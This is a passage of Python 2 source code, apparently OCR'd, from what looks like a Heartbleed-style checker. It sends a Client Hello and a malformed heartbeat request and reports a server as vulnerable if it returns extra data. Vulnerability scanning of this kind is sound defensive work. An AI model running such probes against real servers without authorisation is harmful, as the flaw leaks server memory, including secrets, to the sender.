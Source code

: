 
    print &#x27;Sending Client Hello... and heartbeat request...&#x27;


    s.send(hello2)

    while True:
        typ, ver, pay = recvmsg(s)

##        _DEBUG=True
##        if _DEBUG == True: 
##            import pdb 
##            pdb.set_trace() 
        if typ is None:
            print &#x27;No heartbeat response received, server likely not vulnerable&#x27;
            return False
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

        if typ == 24:
            print &#x27;Received heartbeat response:&#x27;
            #hexdump(pay)
            if len(pay) &gt; 3:
                print str(len(pay)) + &quot;\n&quot;
                print &#x27;WARNING: server returned more data than it should - server is vulnerable!&#x27;
            else:
                print &#x27;Server processed malformed heartbeat, but did not return any extra data.&#x27;
            return True


        if typ == 21:
            print &#x27;Received alert:&#x27;
            hexdump(pay)
            print &#x27;Server returned error, likely not vulnerable&#x27;
            return False


if __name__ == &#x27;__main__&#x27;:
    main()
    main2()
</pre>